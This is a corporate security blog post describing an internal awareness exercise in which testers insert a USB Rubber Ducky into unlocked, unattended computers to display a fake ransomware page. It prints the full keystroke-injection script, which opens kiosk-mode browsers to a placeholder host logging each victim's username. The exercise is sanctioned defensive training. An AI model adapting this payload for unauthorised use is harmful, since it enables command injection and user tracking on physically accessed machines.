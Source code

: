 ```yaml
---
layout: post
title: "Unattended, Unlocked, Unprotected Terminals - User Security Training with USB Rubber Ducky"
date: 2018-08-24 23:59
comments: false
author: Rodney Beede
authorIsRacker: true
published: true
categories:
  - Security
---
```


As part of our user security awareness training we perform tests of our personnel in the work environment.  One training exercise involved testing for unattended computers by inserting a USB device that would display a ransomware screen.

<!-- more -->

## What is USB Rubber Ducky?

A product made by a company called Hak5.  You can find information about it at:

* [http://hakshop.com/products/usb-rubber-ducky-deluxe](http://hakshop.com/products/usb-rubber-ducky-deluxe)
* [https://github.com/hak5darren/USB-Rubber-Ducky](https://github.com/hak5darren/USB-Rubber-Ducky)

To you it looks like a USB thumb drive, but it actually emulates a USB HID keyboard.  Once plugged in a payload programmed into the device sends keyboard commands to the computer.

This allows a security tester to quickly run commands on an unprotected computer without having to sit down at the computer and type.

## Our ransomware exercise

We walked around our location looking for computers that were unattended and had not been locked (left at the desktop screen).  If we discovered an unattended computer we inserted the USB Rubber Ducky into a USB port which delivered our payload.

### What happens?

The payload sends keystroke commands that:

1. Open up a web browser
1. Place the web browser full screen
1. Open a second web browser on the second monitor
   * Also in full-screen mode
1. Navigate to a fake ransomware page

The fake ransomware page includes text that indicates it is a security test and provides links to security training for the user.

## Payload code and tools

The tool duckencoder_2.6.4.jar from the [USB Rubber Ducky GitHub site](https://github.com/hak5darren/USB-Rubber-Ducky) encodes the payload command script for the USB Rubber Ducky hardware.

One limitation is that the encoder does not have built-in support for the key combination of **win + CTRL + desktop** (open a new virtual desktop).  I overcame this limitation by manually editing the compiled inject.bin with a hex editor to change the keycode bytes from _07 05_ to _07 09_ (hexadecimal).

While I have submitted code enhancements to the product's GitHub project the maintainers have not updated it in quite some time (Dec. 7, 2016).  Ideally the encoder would have support for more key combinations, but most desired actions can be done without using a hex editor.  I was successful in getting **STRING_DELAY** added to the official code base, and this script command is very helpful for writing shorter payloads.

### Code

```
REM Author:  Rodney Beede of GES-TVA
REM Created: 2018-05-31


DEFAULT_DELAY 100

REM startup delay
DELAY 100

REM Create a new desktop is  win + CTRL + desktop
REM ducky script doesn't support this so make it yourself
REM by ORing the MODIFIER_KEY values together! and HxD
REM https://github.com/hak5darren/USB-Rubber-Ducky/blob/master/Encoder/resources/keyboard.properties

REM CTRL-ALT d MAKES 07 05
REM CTRL-ALT === 0x05
REM d === 0x07   (these are keyboard codes, not ascii)
REM win+ctrl+d MAKES 07 09
CTRL-ALT d



REM run dialog
GUI r

REM the double quotes are important
STRING_DELAY 10 "c:\Program Files\internet explorer\iexplore.exe" -k http://fake-ransomeware-page.example.com/log/%username%
ENTER


REM open a second one and put on the second monitor

GUI r
STRING_DELAY 10 "c:\Program Files\internet explorer\iexplore.exe" -k http://fake-ransomeware-page.example.com/log/%username%
ENTER



REM win+SHIFT+right arrow to move window to other desktop
REM HxD edit so CTRL-ALT (05) becomes WIN+SHIFT value:  0A
REM 4F 05 ===>  4F 0A
CTRL-ALT RIGHT
```


## Summary

We chose the ransomware screen shock factor as a way to educate users of the security risk to company data.  It creates more ownership (versus just an email note from security) by demonstrating real-world impact of what could happen from a malicious actor.

![Ransomware Screen]({% asset_path 2018-08-24-unattended-unlocked-unprotected-terminals-user-security-training/ransomware.png %})
